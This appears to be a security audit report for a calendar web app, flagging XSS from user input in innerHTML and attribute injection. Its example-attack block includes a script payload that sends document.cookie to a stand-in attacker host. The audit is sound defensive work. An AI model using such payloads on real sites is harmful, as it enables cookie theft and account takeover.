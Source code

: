 # Celtic Calendar App - Security Audit Report

## 🚨 CRITICAL SECURITY VULNERABILITIES IDENTIFIED

### **Priority 1: XSS (Cross-Site Scripting) Vulnerabilities**

#### **🔴 HIGH RISK: User Input in innerHTML**
**Location:** `src/components/settings.js:389-393`
```javascript
// VULNERABLE CODE:
eventElement.innerHTML = `
    <ul class="settings-event-list">
        <li><h3>${event.title || event.name} - ${event.category || event.type || "custom-event"}</h3></li>
        <li>${event.date}</li>
        <li>${event.notes || "No notes added."}</li>
        // ...
```

**Risk:** Malicious JavaScript can be executed if a user enters HTML/JS in event titles or notes.

**Example Attack:**
```javascript
eventName = '<img src=x onerror="alert(\'XSS Attack\')">'
eventNotes = '<script>document.location="http://attacker.com?cookies="+document.cookie</script>'
```

#### **🟡 MEDIUM RISK: Attribute Injection**
**Location:** `src/components/calendar.js:783-785`
```javascript
// POTENTIALLY VULNERABLE:
cell.setAttribute("title", `${event.title}${event.notes ? " — " + event.notes : ""}`);
cell.setAttribute("data-event-id", event.id || `${event.title}-${event.date}`);
```

**Risk:** HTML attribute injection could lead to XSS in certain contexts.

---

## 🔍 **Other Security Issues Identified**

### **API Security**
- ✅ **Good:** No hardcoded API keys in frontend code
- ✅ **Good:** Uses HTTPS for external CDN resources
- ⚠️ **Warning:** No input validation on API requests
- ⚠️ **Warning:** No rate limiting on client side
- ⚠️ **Warning:** No authentication/authorization headers

### **Data Storage**
- ✅ **Good:** Uses localStorage (client-side only)  
- ⚠️ **Warning:** No sensitive data encryption
- ⚠️ **Warning:** No data expiration policies
